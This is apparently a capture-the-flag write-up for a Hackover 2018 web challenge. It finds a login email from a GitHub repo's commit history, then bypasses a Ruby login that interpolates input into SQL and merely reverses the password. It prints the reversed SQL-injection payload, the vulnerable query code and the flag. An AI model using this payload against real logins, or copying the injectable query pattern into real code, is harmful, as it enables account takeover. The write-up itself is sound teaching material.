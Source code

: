 ## title
#### challenge
```
Howdy mate! Just login and hand out the flag, aye! You can find on h18johndoe has all you need!

http://yo-know-john-dow.ctf.hackover.de:4567/login

alternative: 46.101.157.142:4567/login
```
## resources
[github](https://github.com/h18johndoe/user_repository/blob/master/user_repo.rb)

### idea
The web page needs an email to login, therefore we cloned the github-repo and looked at the commits with ```git log``` and checked the four emails on the website login.
```
commit b26aed283d56c65845b02957a11d90bc091ac35a (HEAD -> master, origin/master, origin/HEAD)
Author: John Doe <angelo_muh@yahoo.org>
Date:   Tue Oct 2 23:55:57 2018 +0200

    Add login method

commit 5383fb4179f1aec972c5f2cc956a0fee07af353a
Author: John Doe <jamez@hemail.com>
Date:   Tue Oct 2 23:04:13 2018 +0200

    Add methods

commit 2d3e1dc0c5712efd9a0c7a13d2f0a8faaf51153c
Author: John Doe <john_doe@gmail.com>
Date:   Tue Oct 2 23:02:26 2018 +0200

    Add dependency injection for database

commit 3ec70acbf846037458c93e8d0cb79a6daac98515
Author: John Doe <john_doe@notes.h18>
Date:   Tue Oct 2 23:01:30 2018 +0200

    Add user repo class and file
```
john_doe@notes.h18 worked.

The login function in the ruby script is vulnerable to SQL-Injections through the reversed password.
We used ```-- '1'='1' ro '1``` as password and got the flag.
```ruby
  def login(identification, password)
    hashed_input_password = hash(password)
    query = "select id, phone, email from users where email = '#{identification}' and password_digest = '#{hashed_input_password}' limit 1"
    puts "SQL executing: '#{query}'"
    @database[query].first if user_exists?(identification)
  end
```
```ruby
  def hash(password)
    password.reverse
  end
```

### flag
hackover18{I_KN0W_H4W_70_STALK_2018}
